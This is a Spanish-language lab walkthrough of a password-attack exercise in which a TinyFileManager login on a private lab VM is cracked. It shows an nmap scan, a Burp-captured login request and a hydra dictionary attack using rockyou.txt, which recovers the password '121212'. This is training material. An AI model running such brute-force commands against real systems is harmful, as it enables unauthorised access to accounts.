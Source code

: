 
# Walk: Password Attacks - SSH and RDP - VM #4
## Fecha: 20/02/2025
## Host: Ubuntu
## IP: 192.168.232.201
## Objetivo
Follow the steps from this section to gain access to TinyFileManager on VM #1 (BRUTE). Once logged in, find the flag.
## Herramientas
1. nmap
2. Burp
3. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios:
- `nmap -sV --open 192.168.232.201 -oN vm-4.nmap-result.txt `
```
Nmap scan report for 192.168.232.201
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    PHP cli server 5.5 or later
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
#### Obtenemos con Burp la cabecera:
- Hacemos un intento de login con el interceptor activado:
```
POST / HTTP/1.1
Host: 192.168.232.201
Content-Length: 23
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.232.201
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.232.201/
Accept-Encoding: gzip, deflate, br
Cookie: filemanager=ftrtp34rggraebkb9ru8aa6v82
Connection: keep-alive
fm_usr=test&fm_pwd=test
```
#### Paso 2: Ejecutamos el ataque de diccionario con hydra:
> Probamos el usuario generico de TinyFileManager: **user**
- `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 11:59:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.232.201:80/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 16 active
[80][http-post-form] host: 192.168.232.201   login: user   password: 121212
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 12:01:52

```
- [80][http-post-form] host: 192.168.232.201   login: user   password: **121212**
#### Paso 3: Iniciamos sesion con usuario/user, password/121212:
- El flag esta en el archivo **install.txt**
